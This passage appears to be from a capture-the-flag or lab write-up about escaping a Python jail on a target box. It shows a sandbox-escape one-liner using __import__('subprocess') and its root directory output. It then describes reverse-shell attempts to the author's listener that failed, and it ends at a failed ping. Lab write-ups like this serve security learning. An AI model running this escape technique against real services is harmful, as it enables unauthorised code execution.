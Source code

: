 (note: although the Popen object exists, if the command has successfully executed, we would see the command output after the popen object output).

Hmm...how can we get code execution then?

At this point I decided to cheat a bit. I know that python jails have appeared on many recent CTFs, and that people have used them to gain Remote Code Execution. Eventually I came across [this](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/sandbox/python-sandbox-escape/), and decided to go down the list. Eventually, using `__import__()` to import libraries and executing them worked for me:

```
>>> __import__("subprocess").check_output(['ls', '-alt'])
b'total 1970276\ndrwxrwxrwt  10 root root       4096 Jun 18 01:57 tmp\ndrwxr-xr-x  25 root root        900 Jun 18 01:50 run\ndrwxr-xr-x  18 root root       3960 Jun 18 01:48 dev\ndr-xr-xr-x  13 root root          0 Jun 18 01:48 sys\ndr-xr-xr-x 113 root root          0 Jun 18 01:48 proc\ndrwxr-xr-x 101 root root       4096 May  7 13:14 etc\ndrwxr-xr-x   2 root root      12288 May  7 11:22 sbin\ndrwxr-xr-x  23 root root       4096 May  7 11:22 lib\ndrwx------   4 root root       4096 May  1 18:51 root\ndrwxr-xr-x   3 root root       4096 Mar  9 20:18 opt\ndrwxr-xr-x   6 root root       4096 Mar  9 19:21 home\ndrwxr-xr-x  14 root root       4096 Mar  9 19:12 var\ndrwxr-xr-x   4 root root       4096 Mar  9 18:58 snap\n-rw-------   1 root root 2017460224 Mar  9 18:56 swap.img\ndrwxr-xr-x  23 root root       4096 Mar  9 18:56 .\ndrwxr-xr-x  23 root root       4096 Mar  9 18:56 ..\ndrwxr-xr-x   3 root root       4096 Mar  9 18:56 boot\nlrwxrwxrwx   1 root root         33 Mar  9 18:55 initrd.img -> boot/initrd.img-4.15.0-46-generic\nlrwxrwxrwx   1 root root         30 Mar  9 18:55 vmlinuz -> boot/vmlinuz-4.15.0-46-generic\ndrwx------   2 root root      16384 Mar  9 18:51 lost+found\ndrwxr-xr-x   2 root root       4096 Jul 25  2018 bin\nlrwxrwxrwx   1 root root         33 Jul 25  2018 initrd.img.old -> boot/initrd.img-4.15.0-29-generic\nlrwxrwxrwx   1 root root         30 Jul 25  2018 vmlinuz.old -> boot/vmlinuz-4.15.0-29-generic\ndrwxr-xr-x   2 root root       4096 Jul 25  2018 lib64\ndrwxr-xr-x   2 root root       4096 Jul 25  2018 media\ndrwxr-xr-x   2 root root       4096 Jul 25  2018 mnt\ndrwxr-xr-x   2 root root       4096 Jul 25  2018 srv\ndrwxr-xr-x  10 root root       4096 Jul 25  2018 usr\n'
```
(The output is ugly, but whatever. At least we can execute commands)
Ok, so now that we have remote code execution, getting a shell is easy, right? Right??


## Getting a shell to Hal

At this point, my first reaction is to look for the nearest [ReverseShellCheatSheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) command to give me a reverse shell. My IP was 10.10.14.3 at that time, and I set up a netcat listener on my kali machine. However, each attempt ended in a silent failure.

Can I even ping out back to my box? Trying to execute ping gave me the answer:

![alt text](imgs/noping.PNG "Error code 1")
